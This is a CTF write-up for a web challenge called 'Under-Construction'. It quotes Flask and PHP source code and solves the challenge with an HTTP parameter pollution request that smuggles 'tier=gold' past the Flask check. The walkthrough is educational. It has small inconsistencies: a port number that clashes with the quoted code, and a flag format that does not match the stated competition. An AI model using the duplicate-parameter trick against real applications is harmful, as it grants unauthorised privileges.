


# Under-Construction
> We were building a web app but the new CEO wants it remade in php.

## About the Challenge
We got 2 websites, the first one was created using `Flask` and the second one was created using PHP. And I got the source code too (You can download the source code [here](22790c2f38bd6adde75753641011c223db7e2c0ec718df6e883976ed9c518ca0a86ef67b7e153fd07a9fa734f6a5350028ca266e3bf646f1096d2c4d536ff45a.zip))

In the first website, there are some functionality that we can test such as register an account, login, and also logout feature. When creating an account, users can select their membership tier (BLUE, RED, GREEN, and GOLD)


And in the second website, there is only 1 feature (Login user).



In the `authorized_routes.py` file, there is a function to register as a user

```python
@authorized.route('/signup', methods=['POST'])
def signup_post():
    raw_request = request.get_data()
    username = request.form.get('username')
    password = request.form.get('password')
    tier = models.Tier(request.form.get('tier'))

    if(tier == models.Tier.GOLD):
        flash('GOLD tier only allowed for the CEO')
        return redirect(url_for('authorized.signup'))

    if(len(username) > 15 or len(username) < 4):
        flash('Username length must be between 4 and 15')
        return redirect(url_for('authorized.signup'))

    user = models.User.query.filter_by(username=username).first()

    if user:
        flash('Username address already exists')
        return redirect(url_for('authorized.signup'))

    new_user = models.User(username=username, 
        password=generate_password_hash(password, method='sha256'), tier=tier.name)

    db.session.add(new_user)
    db.session.commit()

    requests.post(f"http://{PHP_HOST}:1337/account_migrator.php", 
        headers={"token": TOKEN, "content-type": request.headers.get("content-type")}, data=raw_request)
    return redirect(url_for('authorized.login'))
```

We can register an account but there is some restriction (We can't register an account using GOLD tier). And the body request will be sent to `account_migrator.php` in port 1336. Now we need to check `account_migrator.php` file

```php
function insertUser($username, $password, $tier)
{
	$hash = password_hash($password, PASSWORD_BCRYPT);
	if($hash === false) {
		http_response_code(500);
		exit();
	}
	$host = getenv("DB_HOST");
	$dbname = getenv("MYSQL_DATABASE");
	$charset = "utf8";
	$port = "3306";

	$sql_username = "forge";
	$sql_password = getenv("MYSQL_PASSWORD");
	try {
		$pdo = new PDO(
			dsn: "mysql:host=$host;dbname=$dbname;charset=$charset;port=$port",
			username: $sql_username,
			password: $sql_password,
		);

		$pdo->exec("CREATE TABLE IF NOT EXISTS Users (username varchar(15) NOT NULL, password_hash varchar(60) NOT NULL, tier varchar(10) NOT NULL, PRIMARY KEY (username));");
		$stmt = $pdo->prepare("INSERT INTO Users Values(?,?,?);");
		$stmt->execute([$username, $hash, $tier]);
		echo "User inserted";
	} catch (PDOException $e) {
		throw new PDOException(
			message: $e->getMessage(),
			code: (int) $e->getCode()
		);
	}
}
```

This function will inserting user information into `Users` table. And inside the `index.php` file, we need to use a gold tier user in order to obtain the flag

```php
if ($tier === "gold") {
        $response .= " " . getenv("FLAG");
    }
```

## How to Solve?
To create an account with GOLD tier, we need to use `HTTP Parameter Pollution` technique. In Flask, the framework will read first parameter while in PHP the program will read the second parameter. Here is the example of HTTP request:

```
POST /signup
Host: under-construction-web.2023.ctfcompetition.com
...

username=owkwokwok&password=wokwokwokw&tier=blue&tier=gold
```

Now, we need to login to the second website to obtain the flag



```
HackTM{Timisoara}
```